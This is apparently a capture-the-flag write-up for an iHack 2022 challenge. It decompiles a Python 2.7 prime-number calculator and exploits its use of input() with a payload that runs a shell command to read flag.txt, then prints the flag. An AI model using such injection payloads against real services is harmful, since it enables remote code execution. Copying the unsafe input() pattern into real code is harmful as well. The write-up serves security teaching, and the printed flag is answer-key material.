 ### Pwn-01

> **Flag Format:** `ihack{MD5}`
>
> **Remote Instance:** `nc pwn1.ihack.sibersiaga.my 80`

The binary is a compiled python executable. The original binary was corrupted.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ file calculator_
calculator_: python 2.7 byte-compiled
```

Fix the file format by changing the extension to `.pyc`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ mv calculator_ calculator.pyc
```

The python byte-code executable can be decompiled using `decompyle6`, `pycdc` or by using this [Online Compiler](https://www.toolnb.com/tools-lang-en/pyc.html).

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-01]
└─$ cat calculator.py 

# uncompyle6 version 3.5.0
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.5 (default, Jun 28 2022, 15:30:04) 
# [GCC 4.8.5 20150623 (Red Hat 4.8.5-44)]
# Embedded file name: calculator.py
# Compiled at: 2022-12-09 16:17:40

import sys
print 'Welcome to IHACK2022. \nThis python program will calculate the prime numbers up to a given number.\nPlease enter a number to be calculated'
sys.stdout.flush()
number = input('')
sys.stdout.flush()
number = int(number)

def is_prime(number):
    if number <= 1:
        return False
    for i in range(2, number):
        if number % i == 0:
            return False

    return True


def print_primes(number):
    for i in range(1, number + 1):
        if is_prime(i):
            print i


print 'The prime numbers up to', number, 'are:'
sys.stdout.flush()
print_primes(number)                     
```

The code uses input function which take any input as literal python code. Therefore, we can get RCE using the shell command `import('os').system("cat flag.txt")`.

**Flag:** `ihack{ebd4e5f19d80a8f40b58a7abba5363a0}`

